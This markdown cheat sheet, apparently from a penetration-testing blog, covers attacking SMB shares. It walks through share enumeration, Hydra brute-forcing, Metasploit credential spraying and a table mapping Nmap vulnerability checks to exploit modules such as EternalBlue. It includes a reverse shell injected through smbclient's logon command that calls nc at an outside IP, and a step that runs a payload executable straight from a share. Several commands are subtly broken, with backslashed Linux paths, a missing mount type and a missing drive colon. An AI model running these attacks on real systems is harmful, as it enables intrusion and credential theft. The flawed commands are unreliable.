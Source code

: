 ```yaml
---
title: 'Working With SMB'
date: '2022-05-21'
description: 'A look at interacting with SMB Shares using the Windows Command line and using various tools available within Kali Linux.'
coverimage: Working_With_SMB.jpg
tags: hydra, mount, nmblookup
published: true
posttype: article
---
```

## Working with SMB

### Windows

Windows commands for working with our share

```
net use \\10.1.1.99\IPC$ /user:evilsmb
net view 10.1.1.99
dir \\10.1.1.99\evilshare
copy \\10.1.1.99\evilshare\29.jpg mypic.jpg
```

Anonymous shares can be viewed without authenticating to the IPC$ share.

```
net view 10.1.1.99
```

Mount a share

```
net use Y \\10.1.1.99\myshare  /user:eviltest
cd /d Y:\
dir
```

Executing files from SMB. Because of the way Windows treats UNC paths, it’s possible to just execute our binary directly from the SMB share without even needing to copy it over first. Just run the executable as if it were already local and the payload will fire:

```
C:\Users\evilsaint\Desktop> \\10.1.1.254\sharefolder\payload.exe
```

### Linux

Listing SMB shares with username and password
```
smbclient -L 10.1.1.99 -U username%password
```

Listing SMB Shares with anonymous connection
```
smbclient -N -L 10.1.1.99
```

Connecting to SMB Share with username and password
```
smbclient //10.1.1.99/myshare -U eviltest%evilpass
```

Connecting to SMB Share without username and password
```
smbclient //10.1.1.99/myshare
```

# SMB

### SMB Shares

List Shares of computers in Domain
```
Get-NetComputer -DomainController 172.20.50.254 | Get-NetShare
```

# Bruteforcing SMB with Hydra

Comma seperated username and passwords
```
hydra -v -V -C user-pass.txt 10.1.18.2 smb
```

not using comma separated
```
hydra -L users.txt -e ns 172.24.2.97 smb
```

# SMB

## NetBIOS

Find all hosts responding to netbios, the `q` supresses the headers
```
nbtscan -q 10.11.1.0\24
```

Look at more detail for a single host either by IP or hostname
```
nmblookup -A 10.50.1.254
nmblookup -S DC01
```

## Crackmapexec

```
crackmapexec smb 10.50.1.0\24
```

## NMAP

Run all Nmap SMB Checks

```
nmap -sS -p 445 -n --open --script=smb-vuln* <ip>
```

Exploit vulnerabilities with metasploit

| Vulnerability | Metasploit Module |
| --- | --- |
| smb-vuln-ms06-025  | exploit06_025_rasmans_reg |
| smb-vuln-ms07-029  | exploit07_029_msdns_zonename |
| smb-vuln-ms08-067  | exploit08_067_netapi |
| smb-vuln-cve2009-3103  | exploit09_050_smb2_negotiate_func_index |
| smb-vuln-ms17-010 | exploit17_010_eternalblue |

## SMB login (spray credentials)

```
msf > use auxiliary/scanner/smb/smb_login
show options
verbose off
set password to the obtained local admin password
remove user as pass
```

## Enum4linux

Enumerate SMB

```
enum4linux -a -u Administrator -p Passw0rd! 10.50.1.15
```

## SMB Client

Listing SMB shares with username and password
```
smbclient -L 10.1.1.99 -U username%password
```

Listing SMB Shares with anonymous connection
```
smbclient -N -L 10.1.1.99
```

Connecting to SMB Share with username and password
```
smbclient //10.1.1.99/myshare -U eviltest%evilpass
```

Connecting to SMB Share without username and password
```
smbclient //10.1.1.99/myshare
```

We can use smbclient over proxychains
```
proxychains smbclient '//192.168.1.230/myshare' -U 'MARVEL.LAB\Administrator%password123!'
```

We can tar up files or folders with smbclient
```
smbclient //10.129.121.21/guest -Tc test.tar secret.txt
smbclient //10.129.121.21/guest -Tc test.tar /tmp
```

## Mount Share

Mount SMB Share
```
mount -t  \\X.X.X.X\c$ \mnt\remote\ -o username=user,password=pass,rw
```

To get a shell back from an SMB share.
```
logon "\=`nc 10.11.0.233 443 -e \bin\bash`"
```

## SMBMap

Not very stealthy but can execute a command
```
python /usr/share/smbmap/smbmap.py -H 127.0.0.1 -u user -p pass -x 'net group "domain admins" \domain'
```

## SMBTree

SMB Tree can map out all smb shares in the neighbourhood.
```
smbtree
```